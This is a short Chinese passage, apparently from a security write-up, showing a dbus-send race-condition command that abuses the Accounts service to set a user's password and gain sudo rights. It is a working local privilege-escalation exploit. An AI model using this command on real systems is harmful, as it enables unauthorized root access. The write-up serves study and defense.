 第二条命令如法炮制，密码为 `password`（`openssl passwd -6` 生成哈希）：

```bash
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$eMS2F4oKEt4exmfY$gsTt1T.ZwcQpE1GKjTCKSkW1RVrfdI9zla0kquQ6KBHxkOqc9rIgXA6TUMPuDuDoInMnc9NDP8su.6YnHs4HL.' string:'Password hint' & sleep 0.005s; kill $!
```

随后就可以 `su merc` 并输入密码切换用户了，此时的用户具有 sudo 权限。
